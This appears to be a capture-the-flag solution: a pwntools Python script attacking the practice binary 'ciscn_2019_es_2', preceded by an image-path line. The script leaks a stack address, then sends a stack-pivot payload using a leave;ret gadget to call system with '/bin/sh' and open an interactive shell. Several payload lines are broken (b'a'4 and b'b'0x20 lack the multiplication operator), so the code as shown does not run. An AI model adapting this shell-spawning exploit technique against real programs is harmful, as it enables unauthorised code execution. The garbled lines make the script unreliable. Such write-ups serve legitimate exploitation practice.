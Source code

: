 





```python
from pwn import *

io=process('./ciscn_2019_es_2')

payload=b'a'4+b'b'0x20+b'c'*4

io.recvuntil('name?\n')

io.send(payload)

io.recvuntil('cccc')

addr=u32(io.recv(4))

systeam_addr=0x08048400

leave_ret_addr=0x080485FD

payload2=b'a'*4

payload2+=p32(systeam_addr)
payload2+=p32(0xdeadbeef)
payload2+=p32(addr-0x38+0x10)+b"/bin/sh"
payload2=payload2.ljust(0x28,b'\x00')
payload2+=p32(addr-0x38)
payload2+=p32(leave_ret_addr)
io.send(payload2)
io.interactive()
```

